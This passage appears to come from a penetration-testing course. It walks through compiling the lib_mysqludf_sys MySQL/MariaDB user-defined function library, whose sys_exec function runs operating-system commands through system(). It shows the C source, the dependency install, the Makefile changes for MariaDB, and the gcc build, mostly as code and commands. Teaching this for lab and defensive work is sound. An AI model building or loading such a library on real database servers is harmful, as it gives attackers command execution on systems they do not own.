 Opening up the lib_mysqludf_sys.c file shows us a fairly standard UDF library that allows for execution of system commands through the C/C++ _system_ function.

```
...
my_ulonglong sys_exec(
   UDF_INIT *initid
,  UDF_ARGS *args
,  char *is_null
,  char *error
){
  return system(args->args[0]);
}
...
```

Moreover, according to the code, the function exported by the shared library after compilation is named _sys_exec_ as in the previous exploit. We'll need to create a MySQL function with the same name in order to execute system commands from the database.

Now that we have reviewed the code, we will compile the shared library.

Looking at the install.sh file, as a prerequisite for compilation we need to install _libmysqlclient15-dev_. In Kali Linux, this is the _default-libmysqlclient-dev_ package, which can be installed with apt.

```
kali@kali:~/lib_mysqludf_sys$ sudo apt update && sudo apt install default-libmysqlclient-dev
```

Now that we have the dependencies installed, we need to remove the old object file before generating the new one.

```
kali@kali:~/lib_mysqludf_sys$ rm lib_mysqludf_sys.so 
```

Looking at the Makefile, we will need to make some minor adjustments to ensure we can compile the source file correctly.

```
LIBDIR=/usr/lib

install:
        gcc -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o $(LIBDIR)/lib_mysqludf_sys.so
```

Specifically we need to adjust the include directory path for the gcc command since we have a MariaDB installation on our Kali system and not a MySQL one. The changes to the Makefile are shown in Listing 60.

```
kali@kali:~/lib_mysqludf_sys$ cat Makefile
LIBDIR=/usr/lib                                                                                             
install:                                                                                                
        gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so 
        
kali@kali:~/lib_mysqludf_sys$ make
gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
```
